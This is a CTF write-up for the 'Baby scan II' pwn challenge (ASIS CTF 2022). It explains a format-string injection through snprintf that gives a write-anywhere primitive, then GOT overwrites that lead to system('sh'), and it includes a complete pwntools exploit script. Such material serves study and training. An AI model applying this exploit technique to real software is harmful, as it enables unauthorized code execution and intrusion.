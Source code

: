 ### Baby scan II

was a pwn challenge from ASIS CTF quals 2022 edition.

let's check first which protection are on.

![checksec](./pics/checksec.png)

ok so no PIE, partial RELRO, no canary..easy skanking...

code source was provided so reverse will be fast :)

```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char size[16], fmt[8], *buf;

  printf("size: ");
  scanf("%15s", size);
  if (!isdigit(*size)) {
    puts("[-] Invalid number");
    exit(1);
  }

  buf = (char*)malloc(atoi(size) + 1);

  printf("data: ");
  snprintf(fmt, sizeof(fmt), "%%%ss", size);
  scanf(fmt, buf);

  exit(0);
}

__attribute__((constructor))
void setup(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
  alarm(180);
}
```

Where is the vulnerability here??

if you look at:

`snprintf(fmt, sizeof(fmt), "%%%ss", size)`

we can see that size string, will be inserted between `"%"` and `"s"` char,

size string is checked if it's a correct digit, but if we inject a `"$"` char in the size string,

with a string like for example `"9$"` at the end the `snprintf()` resulting format string will be changed to a positional format string `"%9$s"`, that will take 9th entry on stack and write an unlimited string to this address.  And this `"9$"` string will pass the `isdigit()` test...

ok but we need to control an entry on stack to use it as the destination address where our string will be stored.

for this we will use:

`scanf("%15s", size)`

one thing to note with `scanf()` is that you can pass zeroes to it, only space, newline, tab will stop it's input.

so if we send for example in python:

`p.sendlineafter('size: ', '9$'.ljust(8,b'\x00')+p64(exe.got['exit'])[0:5]))`

the 64bit value (cut to 6bytes to fit in 14bytes), will be stored after the `"9$"` string on stack.

on gdb we can check, that we can reach it at position 9 with `"%9$s"` string with the last `scanf()`



**So now we basically have a write anywhere primitive**



As the program as no PIE, and the GOT is half RELRO, we can write in GOT entries.

so what's the exploitation plan??

+ first we overwrite `exit()` GOT entry, and replace it with `_start` address to restart program at exit

+ second pass, we change `atoi()` GOT entry to `printf()` plt address

+ now that `atoi()` is a `printf()`, we pass a format string to `"size: "` input to dump a libc address, and calculate libc mapping address

+ last write, now we changed `atoi()` GOT entry to `system()` libc address.

+ last but not least, not we send `"1;sh"` string to `"size: "` input, that will be passed to system() and will execute `sh` the shell

  and we got shell !

  seeing is believing..so see it!

  ![gotshell](./pics/gotshell.gif)



and the exploit of course..(in case you understand nothing in my explanation..you can still read it..)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")

# shortcuts
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "65.21.255.31", "33710"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

# replace exit got entry by _start, to restart at exit
sla('size: ', '9$'.ljust(8,b'\x00')+p64(exe.got['exit'])[0:5])
payload = p64(exe.sym['_start'])[0:6]
sla('data: ', payload)
# replace atoi got entry by printf
sla('size: ', '9$'.ljust(8,b'\x00')+p64(exe.got['atoi'])[0:5])
payload = p64(exe.sym['printf'])[0:6]
sla('data: ', payload)
# leak libc address with atoi/printf
sla('size: ', '1%13$p')
libc.address = int(rcu('1', 'data: '),16) - 0x24083
print('libc base = '+hex(libc.address))
sl('a')
# replace atoi by system
sla('size: ', '9$'.ljust(8,b'\x00')+p64(exe.got['atoi'])[0:5])
payload = p64(libc.sym['system'])[0:6]
sla('data: ', payload)
# execute sh and got shell
sla('size: ', '1;sh')
sl('id;cat flag*')

p.interactive()
```

*nobodyisnobody still pwning things...*
